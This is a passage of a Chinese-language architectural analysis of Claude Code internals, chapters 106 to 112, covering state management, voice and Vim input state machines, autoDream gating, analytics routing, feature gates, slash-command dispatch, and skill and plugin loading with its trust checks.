注释强调**禁止返回新对象**（会恒判变）。如果 selector 返回新对象（如 `useAppState(s => ({a: s.a, b: s.b}))`），每次调用都创建新对象，`Object.is` 判定为变化，导致每次渲染都重渲染。

正确的做法是选择已有子对象引用（如 `useAppState(s => s.appState.a)`）。如果需要多个切片，用多个 `useAppState` 调用，或用 zustand 的 `shallow` 比较。Claude Code 选择要求选择已有引用，避免比较开销。

### 106.8 useSetAppState 的不订阅

`useSetAppState()`（`:170`）返回稳定 `setState`，不订阅状态。用于只需修改状态不读取的组件——避免这些组件因状态变化重渲染。`setState` 引用稳定（store 创建时确定），组件可以安全地在 `useEffect` 依赖中用 `useSetAppState()`。

### 106.9 onChangeAppState 的副作用同步

`onChangeAppState.ts`：store 变更副作用回调，同步权限模式/会话元数据到 CCR external_metadata、清理凭证缓存等。外部也可经 `externalMetadataToAppState` 反向恢复 worker。

副作用同步让状态变更自动传播——如权限模式变化时自动同步到 CCR（让远端知道本地权限模式）。这是"响应式状态管理"——状态变更触发副作用，而非手动在各处调用同步。

### 106.10 scrollable + bottom + overlay + modal + bottomFloat

`FullscreenLayout` 提供五种槽位：

- `scrollable`：消息/工具输出，可滚动——主要内容区
- `bottom`：spinner/prompt/权限，固定底部——始终可见的操作区
- `overlay`：绝对定位浮层——临时信息
- `modal`：模态对话框——阻断交互
- `bottomFloat`：底部浮层——如 CompanionFloatingBubble

这种槽位架构让 TUI 布局结构化——每个组件知道自己属于哪个槽位，布局器自动排列。相比自由布局，槽位架构更可预测，组件不会重叠错位。

### 106.11 bottomFloat 的 Buddy 气泡

`CompanionFloatingBubble` 渲染在 `bottomFloat` 槽位。这是因为全屏模式下，scrollback 的 `overflowY:hidden` 会裁剪内联气泡，且无法从 Static 区清除。`bottomFloat` 让气泡浮在底部，不受 scrollback 裁剪。

### 106.12 ScrollChromeContext 的 sticky header

`ScrollChromeContext` 供子组件上报 sticky header。sticky header 是滚动时固定在顶部的元素（如当前工具名）。子组件通过 ScrollChromeContext 上报自己是否 sticky header，布局器据此在滚动时固定它。

### 106.13 渲染期间同步重置 tick

`CompanionFloatingBubble` 用**渲染期间同步重置 tick**（不是 useEffect）避免出现一帧静止淡出（第 315-320 行注释）。这是 React 渲染时机的细节——如果用 useEffect 重置，会有一帧的延迟，气泡显示静止一帧后才淡出。同步重置在渲染期间完成，避免这一帧延迟。

这种"渲染期间同步操作"是 React 的高级技巧——通常应避免渲染期间修改状态（可能导致重渲染循环），但在特定场景（如避免一帧延迟）是合理的。


## 第 107 章 Voice、Vim 与键盘绑定的状态机

第 71 章概述了语音输入，但 hold-to-talk 的状态机值得深入。语音输入的核心挑战是"何时开始录音、何时停止"——hold-to-talk 模式要求用户按住键录音、释放停止，这需要一个精确的状态机。

### 107.1 按键事件的状态转换

`useVoice`（`useVoice.ts:199`）的 hold-to-talk：`handleKeyEvent()`（第 1022 行）→ `startRecordingSession()`（第 633 行）→ `connectVoiceStream` → 录音 chunk 经 `connection.send()` 流式上传。

状态转换：
- 按键按下 → 开始录音 + 连接 voice_stream WebSocket
- 按键保持（auto-repeat）→ 继续录音
- 按键释放（auto-repeat 间隔 > `RELEASE_TIMEOUT_MS`(200ms)）→ 停止录音 + finalize

### 107.2 RELEASE_TIMEOUT_MS 的 200ms 判定

按键释放判定：auto-repeat 间隔 > `RELEASE_TIMEOUT_MS`(200ms) 即停止。这是一个精巧的设计——操作系统在按键按住时会持续发送 auto-repeat 事件，间隔通常约 30-50ms。当用户真正释放按键，auto-repeat 事件停止，间隔超过 200ms 即可判定为释放。

200ms 阈值平衡了响应性与准确性——太短（如 50ms）可能在 auto-repeat 抖动时误判释放；太长（如 500ms）让用户感知明显的延迟。200ms 在大多数系统上能可靠区分 auto-repeat 与真实释放。

### 107.3 finalize 的四种结束源

`finalize()` 的四种结束源（第 60 行）：

1. 用户释放按键（正常结束）
2. WebSocket 错误（异常结束）
3. 超时（防止无限录音）
4. 用户中断（如 Ctrl+C）

四种结束源覆盖了所有可能的录音终止场景，确保 finalize 总能被调用，不会留下未完成的录音会话。

### 107.4 音频缓冲期间 WS 未连的 pending 处理

录音开始时 WebSocket 可能尚未连接完成（连接是异步的）。在此期间录制的音频 chunk 需要缓冲，待 WebSocket 连接后批量发送。这一 pending 处理确保了录音开始的前几百毫秒（WS 连接时间）的音频不丢失——语音转写需要完整音频，开头缺失会导致转写错误。

### 107.5 interimRange 的未定稿文本调暗

`handleVoiceTranscript`（`useVoiceIntegration.tsx:281`）用 `interimRange`（第 328 行）供 UI 调暗未定稿文本。语音转写是流式的——服务端先返回 interim（未定稿）结果，最终返回 final（定稿）结果。interimRange 让 UI 用不同样式显示未定稿文本（如灰色），定稿后变为正常颜色。这给了用户"转写正在进行"的视觉反馈。

### 107.6 dot-repeat 的实现

`PersistentState`（lastChange、lastFind、register、registerIsLinewise）支持 dot-repeat 与寄存器。`replayLastChange()`（`useVimInput.ts:109`）实现 dot-repeat——按 `.` 重复上一次修改。

dot-repeat 是 Vim 的标志性功能，它要求状态机记录完整的修改序列（操作符 + motion + 文本对象），而非仅最终结果。`PersistentState.lastChange` 记录了这一序列，`replayLastChange` 在当前光标位置重放。这是一个相对复杂的功能，Claude Code 完整实现了它。

### 107.7 Esc 不迁移到 keybindings 系统的设计

`useVimInput.ts` 第 189 行注释明确：Esc 在 INSERT→NORMAL 切换**有意不迁移到 keybindings 系统**。这是一个深思熟虑的设计决策——keybindings 系统是可配置的，用户可能重绑 Esc。但 Vim 的 Esc 语义（退出插入模式）是 Vim 的核心交互，不应被重绑。

通过把 Esc 处理留在 `useVimInput` 内部而非 keybindings 系统，Vim 模式确保了 Esc 的行为一致——无论用户如何配置 keybindings，Vim 的 Esc 始终退出插入模式。这保留了 Vim 的可预测性。

### 107.8 文本对象的完整实现

`textObjects.ts`（`i`/`a` scope + `w W " ' ( ) b [ ] { } B < >`）实现了完整的 Vim 文本对象。文本对象是 Vim 的高级功能——`ciw`（change inner word）、`da"`（delete a double-quote）等操作让编辑极其高效。

完整实现文本对象意味着状态机要处理"操作符 + 文本对象"的组合——如 `c` 操作符等待文本对象 `iw`，然后执行 change inner word。这要求 `CommandState` 有 `operatorTextObj` 状态，记录等待中的操作符和文本对象。Claude Code 的状态机完整支持了这些组合。

### 107.9 register 的 linewise 标记

`registerIsLinewise` 标记寄存器内容是否为行级（如 `yy` 复制整行是 linewise，`yw` 复制词不是）。`p`/`P` 粘贴时，linewise 寄存器粘贴到下一行/上一行，非 linewise 粘贴到光标后/前。这一细节是 Vim 寄存器系统的核心，Claude Code 正确实现了它。

### 107.10 resolveKeyWithChordState 的状态

`resolver.ts` 的 `resolveKeyWithChordState()`（第 166 行）实现 chord 状态机：

- 初始状态：等待单键或 chord 前缀
- 前缀命中（如 `ctrl+x`）：→ `chord_started`，等待下一键
- 下一键匹配（如 `ctrl+k`）：chord 完成，执行动作
- escape：取消 chord，回到初始
- `alt`/`meta` 归一化

### 107.11 chord 的设计价值

chord 的价值是**键空间扩展**——单键组合有限，chord 让 `ctrl+x` 作为"前缀"，后续键组合形成新的命令空间。Emacs 大量使用 chord（如 `C-x C-f` 打开文件），Claude Code 借鉴了这一设计（如 `ctrl+x ctrl+k` killAgents）。

chord 的代价是学习曲线——用户需要记住键序。但一旦习得，chord 比单键更不易误触（需要连续两组键），且扩展了键空间。Claude Code 把 chord 用于"不常用但重要"的操作，避免占用单键组合。

### 107.12 reservedShortcuts 的不可重绑

`reservedShortcuts.ts` 确保 ctrl+c/ctrl+d 不可重绑。ctrl+c（中断）和 ctrl+d（退出）是终端的基础语义，重绑会破坏用户的基本交互预期。通过保留它们，keybindings 系统让用户可以自定义大部分键，但不破坏基础控制流。

### 107.13 仅 ant 员工开放的定制

`isKeybindingCustomizationEnabled`（GrowthBook gate）目前仅对 Anthropic 员工开放键盘绑定定制。这一限制可能是因为键绑定定制仍在内测——外部用户的键绑定定制需求通过 `/keybindings` skill 引导，但完全自定义尚需验证。chokidar 热重载让 ant 员工修改 `keybindings.json` 后立即生效，便于迭代调试。


## 第 108 章 autoDream 门控链经济学与进度追踪

第 48 章概述了 autoDream，但其门控链的"最便宜的先查"经济学值得深入。autoDream 是后台记忆巩固，它在每轮模型停止后检查是否应触发，但检查本身有成本，需要从最便宜的检查开始。

### 108.1 门控顺序的成本排序

门控链（`isGateOpen` L95 + 顺序 L125）按成本从低到高排序：

1. **总闸** `isGateOpen()`：纯内存检查（KAIROS/远程/autoMemory/enabled 标志），几乎零成本
2. **时间门** `readLastConsolidatedAt()`：读锁文件 mtime，一次 stat 调用
3. **扫描节流** `SESSION_SCAN_INTERVAL_MS`=10min：内存时间戳比较，零成本
4. **会话门** `listSessionsTouchedSince`：扫描 transcript 目录，多次 stat
5. **锁** `tryAcquireConsolidationLock`：文件写入，需要 fs 操作

这一顺序确保了：在大多数轮次中，只有零成本的总闸检查被执行（通常时间门未到即返回）。只有当时间门通过（24h 一次），才进阶到扫描节流；扫描节流通过后，才进阶到会话门（需要 stat 扫描）；只有会话门通过（≥5 会话），才尝试获取锁。这种"成本递增"的检查链让 autoDream 的日常开销极低。

### 108.2 24h 时间门的频率控制

`readLastConsolidatedAt()` ≥ `minHours`（默认 24h）——锁文件 mtime 即 lastConsolidatedAt。这一设计巧妙地复用了锁文件——锁文件既用于互斥（防并发 dream），其 mtime 又记录了上次巩固时间，无需单独的时间记录文件。

24h 频率平衡了记忆新鲜度与成本——记忆巩固调用 LLM（fork 子代理），成本不低。24h 一次确保了记忆每天更新，但不至于频繁消耗。

### 108.3 5 会话门的信号检测

`listSessionsTouchedSince(lastAt)` ≥ `minSessions`（默认 5），排除当前 session。这一门控确保了只在"有足够新会话信号"时才巩固——如果用户只开了一个会话且无新活动，巩固无意义。5 个会话的阈值确保了巩固有足够素材，避免空转。

排除当前 session 是因为当前 session 可能还在进行，其 transcript 不完整。巩固应基于已结束或充分进展的会话。

### 108.4 失败回退 mtime 的重试机会

失败时 `rollbackConsolidationLock(priorMtime)`（回退 mtime 让时间门再次通过）。这一设计很巧妙——如果巩固失败（如 LLM 错误），不把这次失败计入"已巩固"，而是回退 mtime 让时间门重新通过，下一轮可以再次尝试。

`priorMtime=0` 时 unlink 锁文件，彻底重置。这是"失败不惩罚"的设计——失败不应阻塞后续尝试，系统应给予重试机会。

### 108.5 KAIROS 的 disk-skill dream 替代

KAIROS 模式禁用 autoDream（"KAIROS mode uses disk-skill dream"）。KAIROS 是常驻会话，它有自己独立的记忆巩固机制——通过磁盘 skill（而非 fork 子代理）执行 dream。这是因为 KAIROS 会话长期运行，fork 子代理会打断其节奏；disk-skill dream 在 KAIROS 的主动循环中自然执行。


### 108.6 makeDreamProgressWatcher 的事件提取

进度 watcher（`autoDream.ts:281`）：提取 assistant 文本 + 折叠 tool_use 计数 + 收集 Edit/Write `file_path`。watcher 监听 fork 子代理的消息流，提取进度信息。

提取 assistant 文本让 UI 能显示 dream 的进展（如"正在分析会话..."）。折叠 tool_use 计数避免显示每个工具调用细节（太冗长），只显示计数。收集 Edit/Write `file_path` 是关键——它记录了 dream 修改了哪些记忆文件。

### 108.7 filesTouched 的完成通知

完成后 `completeDreamTask`，如有 filesTouched 则 `appendSystemMessage(createMemorySavedMessage(..., verb:'Improved'))`。这让主代理知道 dream 修改了哪些文件——`createMemorySavedMessage` 注入一条系统消息告知"记忆已被改进"，列出 touched 文件。

这一通知让主代理感知到记忆已更新——它可能基于新记忆调整后续行为。`verb:'Improved'` 区分了 dream 巩固（改进）与主代理直接写（新建）。

### 108.8 DreamTask 的 UI pill 与 kill

`registerDreamTask`（`tasks/DreamTask/DreamTask.ts`）注册到任务系统，footer pill 可见，可从 BackgroundTasksDialog kill。这让 dream 对用户可见但不打扰——footer pill 显示"dream 进行中"，用户可以忽略它继续工作，或主动 kill 取消。

kill 通过 abortController 实现——dream 的 fork 子代理检查 abortController，被 kill 时优雅退出。


## 第 109 章 Analytics 双 sink 路由与 OAuth profile 缓存

第 47 章概述了 Analytics，但其双 sink（Datadog + 1P）路由值得深入。

### 109.1 _PROTO_ 字段的 PII 隔离

`stripProtoFields`（L45）剥离 `_PROTO_*` PII 键，防止进入通用后端（Datadog）。`_PROTO_*` 前缀的字段是 PII（个人身份信息）或敏感数据，只应进入 1P（第一方）后端，不应进入 Datadog（第三方）。

这一设计的巧妙在于用命名约定（`_PROTO_` 前缀）标记敏感字段，stripProtoFields 自动剥离。开发者在事件中加 `_PROTO_user_id` 字段，它会进入 1P 但不进入 Datadog，无需手动过滤。

### 109.2 Datadog 与 1P 的双路由

`logEventImpl`（L48）：先 `shouldSampleEvent` 采样，再按 `shouldTrackDatadog`（GrowthBook gate `tengu_log_datadog_events` + killswitch）发 Datadog（剥 `_PROTO_`），同时 `logEventTo1P` 发 1P（保留 `_PROTO_`）。

双路由让同一事件既进入 Datadog（用于通用监控、告警），又进入 1P（用于详细分析、PII 关联）。Datadog 不含 PII（合规），1P 含 PII（深度分析）。

### 109.3 shouldSampleEvent 的采样

采样是高吞吐量事件系统的常见技术——不记录所有事件（成本高），只记录一部分（统计代表性）。`shouldSampleEvent` 根据事件类型和 GrowthBook 配置决定是否采样。高频事件（如每次按键）采样，低频事件（如会话开始）全量记录。

### 109.4 sinkKillswitch 的紧急关闭

`sinkKillswitch.ts` 按 sink 名 kill。这是"紧急关闭开关"——如果某个 sink（如 Datadog）出现问题（如数据质量错误），可以快速关闭该 sink 而不影响其他。killswitch 通过 GrowthBook 动态配置，无需发版。

### 109.5 类型标记的强制验证

类型标记 `AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS`（=never）强制显式验证不泄漏代码/路径。这是一个 TypeScript 技巧——`= never` 的类型标记让任何包含该字段的赋值都需要显式断言，强制开发者在记录事件元数据时思考"这会不会泄漏代码或文件路径"。

这是一种"通过类型系统强制安全思考"的设计——不是技术约束（运行时不检查），而是开发流程约束（编译时提醒）。

### 109.6 跳过已缓存 profile 省 7M req/day

`refreshOAuthToken`（client.ts:146）跳过已缓存 profile 省 7M req/day。这是一个惊人的数字——如果不跳过，每次 token 刷新都请求 profile，会产生 7 百万次/天的 API 请求。

profile 信息（订阅类型、rate limit tier）变化频率低，无需每次刷新都请求。通过缓存 profile，只在首次或过期时请求，大幅降低 API 调用量。这是"区分变化频率"的优化——token 频繁变化（小时级），profile 低频变化（天级），分别缓存。

### 109.7 fetchProfileInfo 的订阅类型与 rate limit tier

`fetchProfileInfo`（client.ts:355）拉取订阅类型 max/pro/enterprise/team、rate limit tier。这些信息影响模型的可用性和速率限制——enterprise 用户可能有更高的 rate limit，team 用户共享配额。在 OAuth 登录时缓存这些信息，后续无需重复请求。

### 109.8 populateOAuthAccountInfoIfNeeded 的环境变量支持

`populateOAuthAccountInfoIfNeeded`（client.ts:451）支持环境变量 `CLAUDE_CODE_ACCOUNT_UUID` 等。这用于 CI/自动化场景——在无浏览器环境，无法走 OAuth 浏览器流程，通过环境变量预设账号信息。

### 109.9 AuthCodeListener 的本地 callback server

`auth-code-listener.ts` 起本地 HTTP callback server 监听 OAuth 回调。同时支持手动粘贴 code（用于远程/浏览器环境 localhost 不可达）。两种 URL：自动（`http://localhost:port/callback`）+ 手动（`MANUAL_REDIRECT_URL`）。

双 URL 设计让 OAuth 在有浏览器和无浏览器环境都能工作——本地有浏览器时自动回调，远程/CI 时手动粘贴。这是"环境适配"的体现。


## 第 110 章 GrowthBook 特性门控与遥测可观测性

贯穿全文的 `feature('XXX')` 和 GrowthBook gate 是 Claude Code 的特性门控系统，值得集中剖析。

### 110.1 feature 的构建期与运行时双重性质

`feature('XXX')`（来自 `bun:bundle`）有两种性质：

- **构建期**：在 `bun:bundle` 构建时，`feature('XXX')` 被求值为 true/false 常量，相关分支被死代码消除（DCE）。这用于"内外构建差异"——ant 构建启用某些 feature，外部构建禁用。
- **运行时**：某些 feature 是运行时 GrowthBook gate，动态求值。

这种双重性质让 Claude Code 能用同一套源码生成内外不同的构建——ant 构建包含全部功能，外部构建只包含公开功能。构建期 DCE 确保了外部构建不包含 ant-only 代码（减小体积、避免泄漏）。

### 110.2 GrowthBook 的缓存与新鲜度

`growthbook.ts` 的 Statsig/GrowthBook feature gate + 动态配置缓存（`getFeatureValue_CACHED_MAY_BE_STALE`）。缓存让 gate 检查低成本（内存读取），但可能过时（stale）。"MAY_BE_STALE" 的命名明确告知调用方缓存可能不新鲜，调用方需自行决定是否接受过时值。

对于 autoDream 门控等非关键决策，stale 值可接受（最坏情况下多/少触发一次巩固）；对于权限决策，则需新鲜值。

### 110.3 tengu_ 前缀的命名规范

GrowthBook gate 统一用 `tengu_` 前缀（如 `tengu_onyx_plover`、`tengu_compact_cache_prefix`）。Tengu 是 Claude Code 的内部代号。这一命名规范让 gate 易于识别和搜索——所有 Claude Code 相关的 gate 都以 `tengu_` 开头。

gate 名常含动物名（onyx_plover、amber_flint、cobalt_frost），这可能是一种内部命名习惯——用动物组合生成唯一且易记的 gate 名。

### 110.4 gate 的分层与互斥

某些 gate 是分层的——如 `tengu_session_memory` + `tengu_sm_compact` 双 gate 控制 session memory compact。双 gate 让灰度发布更精细——先开 `tengu_session_memory`（启用 session memory 维护），再开 `tengu_sm_compact`（启用 session memory 用于 compact），逐步推出。

某些 gate 互斥——如 contextCollapse 与 autocompact 互斥。互斥 gate 确保了不兼容的特性不同时启用，避免冲突。


### 110.5 tengu_ 前缀的事件命名

遥测事件统一用 `tengu_` 前缀（如 `tengu_started`、`tengu_compact`、`tengu_tool_use_*`、`tengu_mcp_*`）。这与 GrowthBook gate 的命名一致，便于在分析平台中筛选 Claude Code 相关事件。

### 110.6 OTel span 的工具执行追踪

`startToolSpan`/`endToolSpan`/`startToolExecutionSpan` 用 OpenTelemetry span 追踪工具执行。span 记录工具调用的开始、结束、耗时，用于性能分析。工具执行是 Claude Code 的性能热点，span 让开发者能定位慢工具。

### 110.7 profileCheckpoint 的启动剖析

`profileCheckpoint('main_tsx_entry')` 等启动剖析打点记录启动各阶段的时间。配合阶段 0 的 `startMdmRawRead`/`startKeychainPrefetch`，启动剖析能可视化"各阶段耗时"，定位启动瓶颈。

### 110.8 stripProtoFields 的 PII 保护

如第 126 章所述，`_PROTO_*` 字段不进入 Datadog。遥测中可能包含用户标识、文件路径等 PII，通过 `_PROTO_` 前缀标记，stripProtoFields 剥离，保护用户隐私。


## 第 111 章 命令判别联合与斜杠解析分发

第 58 章概述了统一 Command 抽象，但其判别联合的类型设计值得深入。`Command = CommandBase & (PromptCommand | LocalCommand | LocalJSXCommand)` 是 TypeScript 判别联合（discriminated union）的典型应用。

### 111.1 判别联合的类型安全

判别联合通过 `type` 字段区分三种命令类型。TypeScript 的判别联合让代码可以安全地根据 `type` 窄化（narrow）类型：

```ts
if (command.type === 'prompt') {
  // command.getPromptForCommand 可用
} else if (command.type === 'local') {
  // command.load().call(args, ctx) 可用
} else if (command.type === 'local-jsx') {
  // command.load().call(onDone, ctx, args) 返回 ReactNode
}
```

这种类型安全避免了运行时错误——如果代码试图在 `local` 命令上调用 `getPromptForCommand`，TypeScript 编译时就会报错。相比用单一类型加可选字段（所有字段都可选，容易访问错误字段），判别联合更安全。

### 111.2 三种类型的执行语义

三种命令类型的执行语义截然不同：

- **PromptCommand**：展开成 prompt 文本送入对话。这是"生成指令"的命令——它的输出是一段文本，作为用户消息注入对话，触发模型响应。/init、/clear、技能都属于此类。
- **LocalCommand**：同步本地执行，返回文本/compact。这是"直接执行"的命令——它自己完成工作，返回结果文本或触发 compact。/compact 属于此类。
- **LocalJSXCommand**：渲染交互式 Ink UI。这是"展示界面"的命令——它渲染一个 React 组件，与用户交互（如配置、选择）。/config、/model、/mcp 属于此类。

这三种类型覆盖了命令的所有执行模式——生成指令、直接执行、展示界面。判别联合让每种模式有专属的字段（如 LocalJSXCommand 有 `load().call(onDone, ctx, args)` 返回 ReactNode），而非共享一套可选字段。

### 111.3 loadedFrom 与 source 的区分

`loadedFrom`（`'commands_DEPRECATED' | 'skills' | 'plugin' | 'managed' | 'bundled' | 'mcp'`）和 `source`（`SettingSource | 'builtin' | 'mcp' | 'plugin' | 'bundled'`）是两个不同维度：

- `loadedFrom` 标识命令从哪里加载（来源机制）
- `source` 标识命令的配置来源（设置层级）

一个插件技能的 `loadedFrom` 是 `'plugin'`，`source` 是 `'plugin'`；一个用户技能的 `loadedFrom` 是 `'skills'`，`source` 是 `'userSettings'`。这种区分让系统能既知道"这个命令是怎么加载的"（loadedFrom），又知道"它的配置优先级"（source）。

### 111.4 immediate 的队列绕过

`immediate?` 标志让命令绕过队列立即执行。大多数命令排队执行（避免并发问题），但某些命令（如 `/mcp`、`/plugin`）需要立即响应用户操作。`immediate` 让这些命令跳过队列，立即执行。

这是一个性能优化——用户打开 `/mcp` 配置面板时，不希望等待当前查询完成，immediate 让面板立即显示。

### 111.5 isSensitive 的历史脱敏

`isSensitive?` 标志让命令参数从历史记录中脱敏。某些命令（如 `/login` 可能带 token）的参数不应持久化到历史，isSensitive 让这些参数在记录时被替换为 `[REDACTED]`。这是隐私保护——敏感参数不留在历史中，防止后续读取历史时泄露。

### 111.6 parseSlashCommand 的解析规则

`parseSlashCommand`（`src/utils/slashCommandParsing.ts`）识别两种形式：

- `/cmd args`：斜杠命令，`cmd` 是命令名，`args` 是参数
- `/mcp:tool (MCP) arg`：MCP 工具调用，`mcp:tool` 是工具名，`MCP` 标记，`arg` 是参数

解析需处理引号、转义、多参数等 shell 语法。`/cmd "arg with space"` 的 args 应解析为单个参数 `arg with space`，而非两个参数。这要求 parser 有类似 shell 的引号处理能力。

### 111.7 hasCommand 的查找

`hasCommand` 查找命令——先精确匹配 name，再查 aliases。aliases 是旧名兼容——命令重命名后，旧名作为 alias 仍可用，旧配置/习惯不会失效。

### 111.8 getMessagesForSlashCommand 的三分支

`getMessagesForSlashCommand()`（`:525`）核心分发，按 `command.type` 分三个分支：

- `local-jsx` → `command.load().call(onDone, ctx, args)` 返回 ReactNode → `setToolJSX` 渲染 Ink 模态
- `local` → `command.load().call(args, ctx)` 返回 `{type:'text'|'compact'|'skip'}`；compact → `buildPostCompactMessages`
- `prompt` → `getMessagesForPromptSlashCommand`；`context==='fork'` → `executeForkedSlashCommand`；inline → `command.getPromptForCommand(args, ctx)`

### 111.9 local-jsx 的 onDone 回调

`local-jsx` 命令的 `call(onDone, ctx, args)` 接受 `onDone` 回调。命令渲染 Ink UI 后，用户交互完成时调 `onDone(result?, {display, shouldQuery, ...})`。`onDone` 让命令控制"交互完成后做什么"——`shouldQuery: true` 表示交互结果应触发模型查询，`display` 是显示文本。

这种"命令主动调 onDone"的设计让交互式命令有完整控制权——它决定何时结束、是否触发查询、显示什么。相比框架强制的生命周期，更灵活。

### 111.10 prompt 命令的 context: fork

`prompt` 命令的 `context: 'inline' | 'fork'`：inline 在主对话内展开 prompt；fork 在隔离子代理执行。fork 上下文用于"需要独立 token 预算"的技能——如复杂分析技能，在子代理执行避免占用主对话上下文。

`executeForkedSlashCommand` 用 `runAgent` 在隔离子代理执行，独立 token 预算。KAIROS 下 fire-and-forget（异步执行不阻塞）。

### 111.11 substituteArguments 的变量替换

`substituteArguments`：`$ARGUMENTS`、`$1`、命名参数替换。技能 prompt 中可用 `$ARGUMENTS`（全部参数）、`$1`/`$2`（位置参数）、命名参数（`arguments` frontmatter 定义的名称）。这让技能能接受参数化输入，灵活适配不同调用。

`${CLAUDE_SKILL_DIR}` / `${CLAUDE_SESSION_ID}` 替换：技能目录路径和会话 ID。这让技能能引用自己的资源文件（如 `${CLAUDE_SKILL_DIR}/template.md`）和会话特定信息。

### 111.12 executeShellCommandsInPrompt 的内联 shell

`executeShellCommandsInPrompt`：执行 `!`cmd`` / ``` ! ``` 内联 shell。技能 prompt 中可嵌入 shell 命令，执行结果注入 prompt。这让技能能动态生成内容——如 `!date` 注入当前日期，`!git log --oneline -5` 注入最近提交。

MCP 技能跳过内联 shell（安全考虑）——MCP 技能来自远程服务器，其 prompt 不应执行本地 shell。这是"不可信输入不执行"的防御。


## 第 112 章 技能加载层级与插件清单生态

第 60 章概述了技能加载，但其四目录层级的优先级与去重值得深入。

### 112.1 四目录的优先级链

`getSkillDirCommands(cwd)`（`loadSkillsDir.ts:638`）从四个目录层级加载：

1. `managedSkillsDir` `~/.claude/managed/.claude/skills`（policySettings 企业策略）——最高优先级
2. `userSkillsDir` `~/.claude/skills`（userSettings）——用户全局技能
3. `projectSkillsDirs` `.claude/skills`（向上遍历到 home，projectSettings）——项目级技能
4. `additionalDirs` `--add-dir` 指定的目录——附加目录
5. `legacyCommandsDir` `.claude/commands/`（deprecated）——兼容旧格式

优先级由加载顺序决定——先加载的优先。这意味着企业策略技能（managedSkillsDir）优先于用户技能（userSkillsDir）优先于项目技能（projectSkillsDirs）。如果同名技能存在多处，先加载的胜出。

### 112.2 realpath 去重的符号链接处理

通过 `realpath` 去重（`getFileIdentity` `:118`，处理符号链接/重复父目录）。符号链接可能让同一物理技能文件出现在多个路径，realpath 解析到真实路径后去重，避免同一技能被加载两次。

重复父目录是指：`.claude/skills` 在项目根和子目录都存在，向上遍历时可能读到同一技能两次。`getFileIdentity` 用 realpath + inode 去重，确保只加载一次。

### 112.3 条件技能的延迟激活

条件技能（`paths` frontmatter）：初始不暴露，存入 `conditionalSkills` Map。`activateConditionalSkillsForPaths()`（`:997`）在模型触及匹配文件时激活（gitignore 风格匹配）。

条件技能的设计哲学是"按需暴露"——一个技能可能只在编辑某种文件时有用（如 `paths: ["*.tsx"]` 的 React 技能）。如果始终暴露，技能列表会很长，模型选择困难。通过条件激活，只有相关技能在相关上下文中出现，减少了技能列表噪声，提高了模型选择准确率。

### 112.4 动态技能的嵌套发现

`discoverSkillDirsForPaths()`（`:861`）在 Read/Write/Edit 时向上遍历发现嵌套 `.claude/skills`，`addSkillDirectories()`（`:923`）加载。动态技能让深层目录的技能也能被发现——如果项目有 `packages/frontend/.claude/skills/react-helper`，当模型编辑 `packages/frontend/` 下的文件时，该技能被动态加载。

`getDynamicSkills()`（`:981`）获取动态技能，在 `getCommands` 中插入到 plugin skills 和 built-in commands 之间。这种"编辑时发现"让技能与代码组织对齐——每个子目录可以有自己专属的技能。

### 112.5 --bare 模式的跳过

`--bare` 模式跳过自动发现，只加载显式 `--add-dir`。bare 模式用于极简场景（如脚本、CI），不需要完整技能系统。跳过自动发现加快了 bare 模式启动，避免加载无关技能。

### 112.6 插件可携带的十类资源

`PluginManifestSchema` 由多个子 schema 合并，一个插件清单可同时携带十类资源：

- **hooks**：插件注入的钩子
- **commands**：命令（commands/ 目录 + commandsPaths）
- **agents**：代理定义（agents/ 目录 + agentsPaths）
- **skills**：技能（skills/ 目录 + skillsPaths）
- **output-styles**：输出样式
- **channels**：分发渠道
- **mcpServers**：MCP 服务器配置
- **lspServers**：LSP 服务器配置
- **settings**：插件注入的设置
- **userConfig**：用户可配置选项 `${user_config.X}`

这种"一个清单携带多种资源"的设计让插件成为功能包——一个插件可以同时提供命令、技能、代理、钩子、MCP 服务器、LSP 服务器等，而非单一功能。这让插件生态更丰富，开发者可以打包相关功能为一个插件。

### 112.7 userConfig 的用户可配置选项

`userConfig`（用户可配置选项 `${user_config.X}`）让插件提供可配置参数。插件定义 `userConfig` schema，用户在 settings 中配置值，插件命令/技能中用 `${user_config.X}` 引用。

这让插件既有默认行为又能被用户定制——如一个部署插件可能有 `userConfig: { deployCommand: string }`，用户配置自己的部署命令，插件技能中用 `${user_config.deployCommand}` 引用。这比硬编码灵活得多。

### 112.8 MarketplaceSourceSchema 的多源支持

`MarketplaceSourceSchema` 是判别联合，支持 `source: 'url' | 'github' | 'git' | 'npm' | 'local'` 五种市场源。这让插件市场可以从多种来源获取——URL 直接下载、GitHub 克隆、git 仓库、npm 包、本地路径。

多源支持让插件分发灵活——企业可以用 `local` 从内部网络安装插件，开发者用 `github` 从 GitHub 安装，官方市场用 `url`。统一抽象让安装逻辑一致，无需为每种源写专门代码。

### 112.9 loadAllPlugins vs loadAllPluginsCacheOnly

`loadAllPlugins()`（完整加载，可能触发 git clone）与 `loadAllPluginsCacheOnly()`（仅读缓存，不触网）。**启动时消费者用 cacheOnly 版本避免阻塞**——启动时不希望因网络克隆插件而延迟，cacheOnly 版本从 `installed_plugins.json` 的 `installPath` 读已安装插件。

完整加载在后台进行（`performBackgroundPluginInstallations`），异步更新。这种"启动用缓存、后台更新"的设计平衡了启动速度与新鲜度——启动快（用缓存），后台慢慢更新到最新。

### 112.10 verifyAndDemote 的依赖降级

`verifyAndDemote()`：依赖检查，未满足的降级（session-local，不写 settings）。如果一个插件依赖某 MCP 服务器但该服务器未配置，插件被降级为 session-local（不持久化到 settings，下次启动重新检查）。这是"优雅降级"——缺少依赖不阻止插件加载，而是限制其功能。

### 112.11 五层信任防御

插件系统的信任模型有五层：

1. **市场源策略门控**：`isSourceAllowedByPolicy` 检查；`isSourceInBlocklist` vs `getStrictKnownMarketplaces`
2. **官方市场保护**：保留名、冒充名检测、同形字攻击防护、官方 org 验证
3. **插件策略**：`isPluginBlockedByPolicy(pluginId)` 强制禁用
4. **项目信任对话框**：首次打开项目要求显式信任
5. **技能调用权限**：`SAFE_SKILL_PROPERTIES` 白名单 + `Skill(name)` 规则

这五层从市场源到技能调用，层层防御。每层防御不同的威胁——市场源策略防恶意市场，官方市场保护防冒充，插件策略防企业禁用插件，项目信任防恶意仓库，技能权限防危险技能调用。

### 112.12 同形字攻击防护

`NON_ASCII_PATTERN` 防同形字攻击。同形字攻击是指：用相似但不同的 Unicode 字符冒充知名名。如用西里尔字母的 `а`（U+0430）替换拉丁字母的 `a`（U+0061），`аnthropics` 看起来像 `anthropics` 但实际不同。

